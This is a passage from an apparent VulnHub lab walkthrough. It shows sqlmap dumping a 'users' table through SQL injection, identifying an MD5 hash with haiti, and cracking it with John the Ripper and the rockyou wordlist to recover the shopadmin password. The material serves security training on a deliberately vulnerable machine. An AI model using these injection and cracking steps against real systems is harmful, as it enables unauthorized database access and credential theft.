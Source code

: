 Finally, dump the content of the table : 
```bash
sqlmap -r request.req -D vinyl_marketplace -T users --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.4.7#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

-----------------------------REDACTED----------------------------
Database: vinyl_marketplace
Table: users
[2 entries]
+----+----------------------------------+-----------+----------------+
| id | password                         | username  | login_attempts |
+----+----------------------------------+-----------+----------------+
| 1  | 9432522ed1a8fca612b11c3980a031f6 | shopadmin | 0              |
| 2  | password123                      | lana      | 0              |
+----+----------------------------------+-----------+----------------+

[17:13:59] [INFO] table 'vinyl_marketplace.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.1.56/dump/vinyl_marketplace/users.csv'
[17:13:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 17:13:59 /2024-05-30/
```

## User part

Now, we have two users : *lana* and *shopadmin*. The *shopadmin*'s password is a hash.

With **haiti**, we know the format : 
```bash
haiti '9432522ed1a8fca612b11c3980a031f6'                                                            
MD5 [HC: 0] [JtR: raw-md5]
```

Use **JohnTheRipper** : 
```bash
[May 30, 2024 - 17:32:34 (CEST)] exegol-vulnhub /workspace # john hash --wordlist=/opt/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
addicted2vinyl   (shopadmin)     
1g 0:00:00:00 DONE (2024-05-30 17:32) 1.695g/s 17573Kp/s 17573Kc/s 17573KC/s addidas17..addias123
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
[May 30, 2024 - 17:32:44 (CEST)] exegol-vulnhub /workspace #
```
